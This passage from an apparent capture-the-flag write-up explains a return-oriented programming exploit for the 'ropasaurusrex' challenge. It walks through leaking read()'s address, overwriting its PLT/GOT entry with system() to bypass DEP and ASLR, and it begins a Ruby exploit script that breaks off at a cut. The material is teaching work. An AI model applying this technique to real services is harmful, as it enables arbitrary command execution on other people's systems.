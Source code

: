 ```
+----------------------+

+----------------------+
|         ...          |
+----------------------+
```

Holy smokes, what's going on!?

Let's start at the bottom and work our way up! I tagged each frame with a number for easy reference.

Frame \[1\] we've seen before. It writes <tt>cmd</tt> into our writable memory. Frame \[2\] is a standard <tt>pop/pop/pop/ret</tt> to clean up the <tt>read()</tt>.

Frame \[3\] uses <tt>write()</tt> to write the address of the <tt>read()</tt> function to the socket. Frame \[4\] uses a standard <tt>pop/pop/pop/ret</tt> to clean up after <tt>write()</tt>.

Frame \[5\] reads another address over the socket and writes it to memory. This address is going to be the address of the <tt>system()</tt> call. The reason writing it to memory works is because of how <tt>read()</tt> is called. Take a look at the <tt>read()</tt> call we've been using in gdb (<tt>0x0804832C</tt>) and you'll see this:

```

<span class="lnr">1 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/i 0x0804832C
<span class="lnr">2 </span>0x804832c <span class="Statement"><</span><span class="Statement">read</span>@plt<span class="Statement">></span>:   jmp    DWORD PTR ds:0x804961c
```

<tt>read()</tt> is actually implemented as an indirect jump! So if we can change what <tt>ds:0x804961c</tt>'s value is, and still jump to it, then we can jump anywhere we want! So in frame \[3\] we read the address from memory (to get the actual address of <tt>read()</tt>) and in frame \[5\] we write a new address there.

Frame \[6\] is a standard <tt>pop/pop/pop/ret</tt> construct, with a small difference: the return address of the <tt>pop/pop/pop/ret</tt> is <tt>0x804832c</tt>, which is actually <tt>read()</tt>'s <tt>.plt</tt> entry. Since we overwrote <tt>read()</tt>'s <tt>.plt</tt> entry with <tt>system()</tt>, this call actually goes to <tt>system()</tt>!

## Final code

Whew! That's quite complicated. Here's code that implements the full exploit for ropasaurusrex, bypassing both DEP and ASLR:

```

<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 6 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">"</span><span class="Special">\0</span><span class="Special">"</span>
<span class="lnr"> 7 </span>
<span class="lnr"> 8 </span><span class="Comment"># From objdump -x</span>
<span class="lnr"> 9 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">10 </span>
<span class="lnr">11 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">12 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">13 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
```